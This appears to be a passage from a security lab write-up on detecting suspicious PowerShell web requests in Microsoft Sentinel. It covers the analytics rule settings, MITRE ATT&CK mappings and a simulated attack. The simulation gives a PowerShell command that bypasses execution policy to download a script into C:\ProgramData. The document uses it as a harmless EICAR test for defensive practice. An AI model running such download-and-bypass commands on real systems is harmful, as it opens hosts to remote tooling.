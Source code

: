![Detection Query Results](incident-response-sentinel/ps-suspicous-web-requeset/images/IR_IMG1.png)  
![Process Detail](incident-response-sentinel/ps-suspicous-web-requeset/images/IR_IMG2.png)

This query filters events from PowerShell commands that reference `Invoke-WebRequest`, projecting relevant metadata that helps us identify the source system, user, and exact command executed.

---

## ⚙️ Part 2: Create the Scheduled Analytics Rule

After verifying that the query returns appropriate results, we create a **Scheduled Query Rule** in Sentinel to automatically generate alerts.

**Analytics Rule Settings**:
- **Name**: PowerShell Suspicious Web Request
- **Description**: Detects PowerShell usage of `Invoke-WebRequest` to download external content.
- **Enable Rule**: ✅
- **Schedule**: Run every 4 hours, look back over the last 24 hours.
- **Stop running query after alert?** ✅
- **Entity Mapping**:
  - `Account`: Identifier = `AccountName`
  - `Host`: Identifier = `DeviceName`
  - `Process`: Identifier = `ProcessCommandLine`
- **Incident Creation**: Automatically create incident on trigger
- **Alert Grouping**: Group into a single incident every 24 hours

**MITRE ATT&CK Categories**:
- **T1059.001** – PowerShell
- **T1105** – Ingress Tool Transfer

![Analytics Rule Creation](incident-response-sentinel/ps-suspicous-web-requeset/images/IR_IMG3.png)

---

## 💣 Part 3: Simulate Attack — Triggering the Alert

Execute the following PowerShell command on the onboarded VM (`PVR-HUNTING2`) to simulate the attack:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1
```

This command:
- Uses `-ExecutionPolicy Bypass` to ignore script execution restrictions.
- Downloads a harmless `eicar.ps1` script from GitHub.
- Saves it to `C:\ProgramData`, a commonly abused directory.

![Simulated Execution](incident-response-sentinel/ps-suspicous-web-requeset/images/IR_IMG4.png)

---
